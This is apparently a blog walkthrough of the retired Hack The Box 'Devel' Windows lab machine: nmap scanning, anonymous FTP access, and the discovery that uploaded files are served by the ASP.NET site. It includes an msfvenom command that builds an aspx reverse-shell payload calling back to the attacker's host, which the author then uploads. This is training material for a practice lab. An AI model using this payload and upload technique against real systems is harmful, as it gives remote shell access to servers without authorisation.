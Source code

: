 # Hack The Box - Devel walkthrough

![](/photos/devel-photos/devel.png)

Today I am writing a walkthrough of the retired Devel machine of Hack The box.  
It is a Windows based machine.  
This machine has a static IP address <10.10.10.5>  
It was a nice easy and interesting machine.  
  
You have to found **user.txt** and **root.txt** flag. 

## Penetration Methodology

* Scanning
  * open ports, versions and services
* Enumeration
  * ftp enumeration
  * http enumeration
  * execute reverse shell

## Scanning

Let's start our nmap to know about **open ports**, **versions** and **services** running on the machine.

![](/photos/devel-photos/devel-nmap.png)

Now we are done with our nmap.  

## Enumeration

As nmap shows us that ftp service is open and  
we can login to ftp with anonymous user.

![](/photos/devel-photos/ftp-acess.png)

As we can see that there is image name **welcome.png**  
Let's try we can access that image from the website or not.

**Wow**  
we can access ftp files from website. 

![](/photos/devel-photos/welcome.png)

Now let's upload our reverse shell on ftp server
But first check about the version and type of file which we can run on the website.

![](/photos/devel-photos/asp.png)

As we can see that this is a asp.net website.  
We can now upload our aspx reverse shell on ftp server.  
But first we have to generate it using **msfvenom**

`msfvenom -p windows/shell_reverse_tcp LHOST=<your ip> LPORT=4444 -f aspx > shell.aspx`

Now let's upload the aspx shell to ftp.

![](/photos/devel-photos/ftp-shell.png)


